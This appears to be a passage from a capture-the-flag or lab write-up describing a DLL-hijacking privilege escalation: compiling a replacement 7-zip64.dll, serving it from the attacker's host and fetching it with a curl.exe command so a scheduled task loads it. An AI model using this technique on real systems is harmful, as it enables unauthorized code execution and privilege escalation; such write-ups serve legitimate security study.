 ![](<../../.gitbook/assets/image (14).png>)

Compile using:&#x20;

```
x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll dll.c
```

Using SimpleHTTPServer to create a web server that allows me to transfer the file over to the box.

Copy file and overwrite 7-zip64.dll&#x20;

`curl.exe http://10.10.16.5:9080/7-zip64.dll -o 7-zip64.dll`

Wait for Scheduled Task (Runs approximately every 3 minutes according to HTTP Server)

![](<../../.gitbook/assets/image (29).png>)

![](<../../.gitbook/assets/image (41) (1).png>)

![](<../../.gitbook/assets/image (30) (1).png>)

